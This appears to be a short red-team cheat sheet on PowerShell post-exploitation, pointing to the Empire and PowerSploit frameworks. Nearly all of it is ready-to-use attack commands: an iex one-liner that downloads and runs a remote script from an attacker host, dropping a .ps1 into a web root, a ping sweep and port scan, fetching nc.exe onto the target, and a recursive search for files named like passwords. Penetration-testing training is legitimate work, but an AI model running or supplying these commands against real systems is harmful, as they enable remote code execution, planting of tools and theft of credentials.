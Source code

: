 **Powershell For Red Team**
===========================


**Tools**
--------
Source: <a href='http://www.powershellempire.com/' target='_blank'>powershellempire</a> 
Source: <a href='https://github.com/PowerShellMafia/PowerSploit' target='_blank'>PowerSploit</a> 

PowerShell for Pen-Tester Post-Exploitation
---------
can download and execute  with minimize the length with Invoke-Expression  the alias is "iex"
Invoke-Expression (iex) runs commands passed to it Net.WebCline acts as PowerShell Web browser

```bash
$ powershell.exe -nop -c “iex(new-object Net.WebClient).DownloadString(‘https://192.168.1.10/pwn’)”
```
You can download your file from your external Server and than save it at traget machine

```bash
$ powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://www.mydomain.cloud/test.txt','C:\inetpub\wwwroot\test.ps1')
```

**Conduct a ping sweep:**
```
PS C:\> 1..255 | % {echo "10.10.10.$_";ping -n 1 -w 100 10.10.10.$_ | Select-String ttl}
```

**Conduct a port scan:**
```
PS C:\> 1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("192.168.1.10",$_)) "Port $_ is open!"} 2>$null
```

**Fetch a file via HTTP (wget in PowerShell):**
```
PS C:\> (New-Object System.Net.WebClient).DownloadFile("http://192.168.1.10/nc.exe","nc.exe")
```
**Find all files with a particular name:**
```
PS C:\> Get-ChildItem "C:\Users\" -recurse -include *passwords*.txt
```
